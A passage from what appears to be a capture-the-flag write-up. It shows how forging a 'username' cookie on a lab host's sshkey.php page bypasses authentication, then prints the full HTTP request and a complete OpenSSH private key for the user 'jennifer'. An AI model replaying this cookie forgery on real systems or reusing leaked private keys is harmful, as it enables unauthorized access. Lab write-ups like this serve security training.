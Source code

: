 Firstly I can check out the second domain, jenniferopenkeys.htb, which turns out to be a clone of the previous page. This time though, I know some of the backend PHP code, including the fact that I can set a username session cookie to retrieve a user's SSH key.

### 3. Get a shell
By doing the same thing as before - logging in with -schallenge, I can pass in a username value of "jennifer" via the cookies header. This is the request that worked:
```
GET /sshkey.php HTTP/1.1
Host: jenniferopenkeys.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://jenniferopenkeys.htb/index.php
Connection: close
Cookie: PHPSESSID=3fr37qontnh4jgtbeacfge0259; username=jennifer
Upgrade-Insecure-Requests: 1
```
And here is the private key output.
```
OpenSSH key for user jennifer

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
